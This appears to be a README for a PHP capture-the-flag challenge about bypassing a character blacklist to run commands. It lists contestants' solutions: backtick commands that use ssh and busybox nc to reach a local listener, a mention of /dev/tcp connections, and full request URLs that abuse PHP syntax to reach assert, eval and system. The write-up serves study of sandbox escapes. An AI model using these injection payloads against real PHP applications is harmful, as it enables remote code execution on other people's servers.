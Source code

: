 ![Hall Of Fame](hof.png)
# URL
[l4w.pw/🤔/](http://l4w.pw/🤔/)

# Type
PHP CTF-style challenge.

How to construct command following the rules.

Trick to run weird command or abusing PHP syntax.

# Solution
This challenge came by when I was solving a PHP sandbox challenge which has limited characters/blacklist functions/...

I left backstick, to see amazing tricks from you guys.

All of them can be found at: [writeup](writeup)

There are serveral solutions:
### Run multiple commands which does following steps:
* Create a temporary file containing chunks (by using: printf/echo/...)
* Run the file, to connect localhost:8888 (using python or bash with /dev/tcp/...)
* See nyan/orange/kaibro/pablo sol.


### Abusing ssh / busybox
It ... surprised me 
* ```die(`ssh -v 0 -p 888\%0a8 2>&1`);```
* ```die(`bus\yb\ox nc 0:888\8`);```
* Using `ssh` and blackslash (See `huyphan` sol)


### PHP syntax abusing
By using bitwise `&`, we can make a string following the rule regexp `\w{4}`, then use `{` as a name of variable `${}`, also access array index `$array{index}`
* `http://l4w.pw/%F0%9F%A4%94/?%E2%81%A3=$a=${_GE%d4%26_GE%7f};$a{0}($a{1});&0=assert&1=eval($_GET[2]);&2=echo%20123;`
* Also see kad96/fa_boy/tsu solutions.
* `http://l4w.pw/🤔/index.php?0=system&1=busybox nc 127.0.0.1 8888&%E2%81%A3=$b=_GE;$b{3}=T;$$b{0}($$b{1});` (From tiengiang, looks like he's the first one who found out `busybox` can be used...)
